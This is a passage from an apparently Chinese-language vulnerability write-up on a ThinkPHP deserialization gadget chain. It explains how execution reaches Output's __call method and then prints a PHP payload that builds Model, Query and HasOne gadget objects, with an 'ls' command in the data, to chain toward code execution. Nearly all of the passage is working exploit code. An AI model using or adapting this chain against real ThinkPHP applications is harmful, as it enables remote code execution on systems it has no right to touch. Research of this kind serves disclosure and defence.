 所以代码执行到


```
$item[$key] = $value ? $value->getAttr($attr) : null;
```

就可以调用Output类的__call方法，调用payload如下


```php
namespace think{
    use think\console\Output;
    use think\model\relation\HasOne;
    abstract class Model{
        protected $relation;
        protected $append = ["1"];
        protected $error;
        protected $parent;
        public function __construct()
        {
            $this->parent = new Output();
            $this->relation = ["getError"=>"getError"];
            $this->append = ["getError"=>"getError"];
            $this->error = new HasOne();
            $this->data = ["key"=>"ls"]; ;
        }
    }
}

namespace think\db{
    use think\console\Output;
    class Query
    {
        protected $model;
        public function __construct()
        {
            $this->model = new Output();
        }
    }
}

namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
    {
        protected $query;
        protected $bindAttr = [];
        public function __construct()
        {
        }
    }

    class HasOne extends OneToOne
    {
        protected $query;
        protected $bindAttr = [];
        public function __construct()
        {
            $this->query = new Query();
            $this->bindAttr = ["1"=>"1"];
        }
    }
}
```
